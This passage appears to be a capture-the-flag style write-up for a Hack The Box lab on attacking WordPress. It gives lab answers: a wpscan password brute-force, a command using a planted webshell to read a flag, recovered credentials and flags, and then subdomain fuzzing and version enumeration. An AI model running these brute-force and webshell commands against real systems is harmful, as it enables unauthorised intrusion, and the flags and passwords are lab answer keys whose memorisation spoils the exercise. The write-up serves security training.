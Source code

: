 Perform a bruteforce attack against the user "roger" on your target with the wordlist "rockyou.txt". Submit the user's password as the answer.

```bash
wpscan --url http://167.172.57.150:31546 --password-attack xmlrpc -t 20 -U roger -P /usr/share/wordlists/rockyou.txt
```

The answer is `roger:lizard`.

### Question 5

Use the credentials for the admin user \[admin:sunshine1] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.

Already done in the exploitation file in the \`Attacking the WordPress backend\`\`section.

```bash
@nightbluecurl -X GET http://167.172.57.150:31546/wp-content/themes/twentyseventeen/404.php?cmd=more+/home/wp-user/flag.txt
```

The flag is `HTB{rc3_By_d3s1gn}`.

## Assessment

### Scanning

```bash
echo '10.129.13.88 inlanefreight.htb' | sudo tee -a /etc/hosts
nmap inlanefreight.com
```

* The port 80 is opened with an Apache server, not a WordPress server.
* I try to find a subdomain that hosts a WordPress server.

```bash
ffuf -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.inlanefreight.htb
```

* I find the subdomain `blog.inlanefreight.htb`. There is a WordPress server.
* I can get the WordPress version (5.1.6).

```bash
curl -s -X GET http://blog.inlanefreight.htb | grep '<meta name="generator"'
```

* I can get the themes versions.

```bash
# method 1
curl -s -X GET http://blog.inlanefreight.htb \
  | sed 's/href=/\n/g' \
  | sed 's/src=/\n/g' \
  | grep 'wp-content/plugins/*' \
  | cut -d"'" -f2

# method 2
wpscan --enumerate ap --url http://blog.inlanefreight.htb
```
